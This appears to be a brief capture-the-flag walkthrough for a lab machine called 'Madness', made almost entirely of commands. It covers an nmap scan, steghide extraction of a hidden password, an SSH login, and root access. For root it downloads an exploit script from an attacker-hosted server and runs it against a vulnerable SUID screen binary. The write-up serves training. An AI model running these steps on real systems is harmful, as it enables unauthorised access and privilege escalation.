

# Madness

### **user.txt**

```
nmap 10.10.175.147
```


```bash
wget http://10.10.175.147/thm.jpg
hexeditor thm.jpg
eog thm.jpg
# http://10.10.175.147/th1s_1s_h1dd3n/
```





```
steghide extract -sf thm.jpg
cat hidden.txt
```


```
wget https://i.imgur.com/5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
```


```
ssh joker@10.10.175.147 cat user.txt
```


### **root.txt**

```bash
$ find / -type f -perm -4000 2>/dev/null
$ wget http://10.9.101.193:8000/41154.sh
$ vim 41154.sh
# :set fileformat=unix
# screen -> /bin/screen-4.5.0
# :x
$ bash 41154.sh
# cat /root/root.txt
```


## :link: Support Material





